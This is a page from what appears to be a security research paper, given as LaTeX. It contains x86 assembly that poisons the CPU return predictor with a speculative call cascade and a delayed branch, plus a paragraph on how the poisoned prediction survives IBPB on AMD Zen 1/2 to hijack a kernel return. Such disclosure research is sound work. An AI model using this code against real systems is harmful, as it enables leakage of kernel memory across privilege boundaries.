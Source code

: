 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
.speculative_call_cascade:
    mov  rsi, [rel __alias_tbl]    ; Load pointer to trampoline entry array (call sites)
    mov  ecx, 64                   ; Number of transient call targets
.alias_loop:
    call qword [rsi]               ; Speculative CALL -> pushes RA to stack -> biases return predictor
    add  rsi, 8                    ; Trampolines are crafted to have return addresses that alias the kernel gadget
    dec  ecx                       ; Advance to next entry in trampoline table
    jnz  .alias_loop               ; Loop until all 64 calls are issued -> until z-flag not 0
    ret

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Branch predicate that keeps JE unresolved long enough to execute the cascade
; - Must not use lfence -> all memory loads before lfence must complete -> not speculatively run anymore
; - The memory at __slow_predicate_ptr should be slow (uncached / fault-suppressed / mapped to delay)
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
.do_branch:
    mov  rdx, [rel __slow_predicate_ptr]  ; runtime: slow mapped memory
    mov  rax, [rdx]
    cmp  rax, 0xdeadbeef
    je   .speculative_call_cascade        ; backward Jcc (target above)
    ret

section .data
__pbinc_kernel_gadget_addr: dq 0           ; Patched at runtime: VA of kernel gadget (used to derive alias class)
__pbinc_probe_shared:       dq 0           ; Patched at runtime: guest VA of SHARED probe buffer (1 MiB)
__alias_tbl:                times 64 dq 0  ; Table of 64 trampoline entry VAs (callsite-aligned, RA aliasing gadget)
__slow_predicate_ptr:       dq 0           ; Points to mapped slow memory to delay JE resolution
; Slow memory because: Because we want the CPU to speculate into the training block before it knows whether the branch
; is actually taken or not.
\end{lstlisting}

\paragraph{Crossing IBPB and hijacking the first return.}
A subsequent \texttt{syscall} (\texttt{getpid}) causes the kernel to execute \texttt{entry\_ibpb} (wrmsr to IBPB) early in the entry path. On Zen~1/2, return-target predictions persist across IBPB, so the first post-IBPB \texttt{ret} speculates to \texttt{pbinc\_dc\_gadget} before normal control flow is recovered. The harness targets an early \texttt{ret}, increasing stability and channel strength.\cite{wikner2025breaking,amd_srso_whitepaper,linux_srso_doc}
\end{document}
